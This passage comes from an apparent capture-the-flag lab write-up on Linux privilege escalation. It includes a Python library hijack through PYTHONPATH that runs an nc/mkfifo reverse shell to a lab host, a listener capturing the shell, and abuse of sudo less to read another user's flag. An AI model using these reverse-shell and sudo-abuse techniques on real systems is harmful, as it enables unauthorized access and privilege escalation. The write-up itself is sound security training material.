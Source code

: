 - We need to create a function inside `shop.py` to create a reverse shell as jordan.

```python
import os
def buy(param):
    os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.17.0.215 1234 >/tmp/f")
```

- Executed the file `sudo -u jordan PYTHONPATH=/tmp/ /opt/scripts/Gun-Shop.py`

```console
reza@linuxagency:~$ sudo -u jordan PYTHONPATH=/tmp/ /opt/scripts/Gun-Shop.py
Welcome to Gun-Shop
Here's the list of all guns we have at our shop

1. American Derringer DA 38 : $910
2. AMP Auto Mag Model 180 : $820
3. AMT Hardballer : $750
4. Colt King Cobra : $670
5. EAA Witness Limited Gold Team : $610
6. Ruger Mk II : $550
7. SIG-Sauer P226R : $500
Enter your choice : 1
rm: cannot remove '/tmp/f': No such file or directory
```

- Got a reverse shell as jordan

```console
$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.17.0.215] from (UNKNOWN) [10.10.219.213] 59866
$ python -c "import pty; pty.spawn('/bin/bash')"
```


# Ken's Flag
- We can run less as ken on the machine.

```console
jordan@linuxagency:~$ sudo -l
Matching Defaults entries for jordan on linuxagency:
    env_reset, env_file=/etc/sudoenv, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jordan may run the following commands on linuxagency:
    (ken) NOPASSWD: /usr/bin/less
jordan@linuxagency:~$ sudo less /etc/profile

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

Password:
sudo: a password is required
jordan@linuxagency:~$ sudo  -u ken less /etc/profile
ken@linuxagency:/home/jordan$ cd
ken@linuxagency:~$ ls
examples.desktop  flag.txt
ken@linuxagency:~$ cat flag.txt
ken{4115bf456d1aaf012ed4550c418ba99f}
```
